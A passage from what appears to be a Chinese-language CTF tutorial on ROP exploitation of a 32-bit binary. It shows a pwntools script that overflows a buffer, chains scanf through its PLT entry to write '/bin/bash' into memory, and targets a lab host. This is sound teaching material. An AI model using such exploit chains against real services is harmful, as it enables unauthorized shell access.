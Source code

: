 接下来我们找到__isoc99_scanf的另一个参数“%s”，位于0x08048629

![Alt](img/ROP技术9.png)
![Alt](img/ROP技术10.png)

接着我们使用pwntools的功能获取到`__isoc99_scanf`在PLT表中的地址(获取`system`的地址也通过此方式），PLT表中有一段stub代码，将EIP劫持到某个函数的PLT表项中我们可以直接调用该函数。我们知道，对于x86的应用程序来说，其参数从右往左入栈。因此，现在我们就可以构建出一个ROP链。

```python
    #!usr/bin/python
    #coding=utf-8
    #

    from pwn import *

    context.update(arch = 'i386', os='Linux', timeout = 1)
    io = remote('172.17.0.2',10001)

    elf = ELF('./pwn1')

    input_addr = p32(elf.symbols['__isoc99_scanf'])
    sys_addr = p32(elf.symbols['system'])
    format_addr = p32(0x08048629)
    bin_addr = p32(0x0804A064)

    shellcode1 = 'A'*0x34
    shellcode1 += input_addr
    shellcode1 += format_addr
    shellcode1 += bin_addr

    print io.read()
    io.sendline(shellcode1)
    io.sendline("/bin/bash")
```
